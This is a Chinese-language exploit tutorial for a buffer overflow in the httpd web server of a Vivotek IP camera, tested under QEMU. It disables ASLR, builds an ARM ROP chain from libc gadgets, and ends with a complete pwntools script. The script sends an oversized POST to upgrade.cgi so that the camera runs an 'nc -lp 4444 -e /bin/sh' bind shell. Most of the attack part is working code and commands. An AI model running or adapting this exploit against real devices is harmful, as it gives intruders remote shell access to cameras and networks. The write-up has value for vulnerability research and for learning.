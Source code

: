 解决了覆盖pc的偏移的事，接下来就是如何执行命令，`checksec`看下程序开了哪些保护：

```bash
[*] '/home/raycp/work/iot/vivotek/httpd'
    Arch:     arm-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8000)
```



可以看到开了nx，所以没办法直接注入shellcode，如何不把aslr关掉的话可能还需要泄露地址，可能就无法利用了，为了顺利利用起来，强行降低难度，把aslr给惯的：

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

下一步就是rop链的构造，根据arm的函数调用约定，参数为`r0-r4`，目标是执行system("nc  -lp 4444 -e /bin/sh;)，因此需要将参数布置到`r0`寄存器。

因为使用的`strncpy`拷贝字符串，所以不能有`\x00`，因此gadget最好从libc里面找，同时地址也不能有`\x00`，最后找到两条gadget（最适合的gadget`0x00033100 : pop {r0, pc}`，因为地址有`00`，所以不行）：

```python
g1=0x00048784 #: pop {r1, pc}
g2=0x00016aa4 #: mov r0, r1 ; pop {r4, r5, pc}
```

上面两条gadget，先将参数赋值给`r1`，再将`r1`给`r0`，最终调用`system`。

为了更好的查看程序的执行流程以及利用过程，最好还是能够调试程序。做法是将gdbserver上传到qemu虚拟机里，再attach到`httpd`进程中，实现调试。可在此[gdb-static-cross](https://github.com/stayliv3/gdb-static-cross/tree/master/prebuilt)下到编译好的静态的gdbserver，最后对于此程序使用以下命令启动调试：

```bash
./gdbserver-7.7.1-armhf-eabi5-v1-sysv :1234 --attach 3564
```

然后再外面的命令行里面用`gdb-multiarch`连上gdbserver实现调试：

```bash
gdb-multiarch ./httpd
target  remote 172.16.217.149:1234
```

最终完整的exp如下：

```python
from pwn import *

g1=0x00048784 #: pop {r1, pc}
g2=0x00016aa4 #: mov r0, r1 ; pop {r4, r5, pc}

p = remote("172.16.217.149",80)

libc_base=0x76f2d000
command_addr= 0x7effeb64
system_addr=0x76f74ab0
g1=libc_base+g1
g2=libc_base+g2
prefix="POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:"
command="nc  -lp 4444 -e /bin/sh;"
payload='a'.ljust(52,'a')
payload=payload+p32(g1)+p32(command_addr)+p32(g2)+'a'*8+p32(system_addr)
payload=prefix+payload+command+"\n\r\n\r\n"
p.sendline(payload)
```
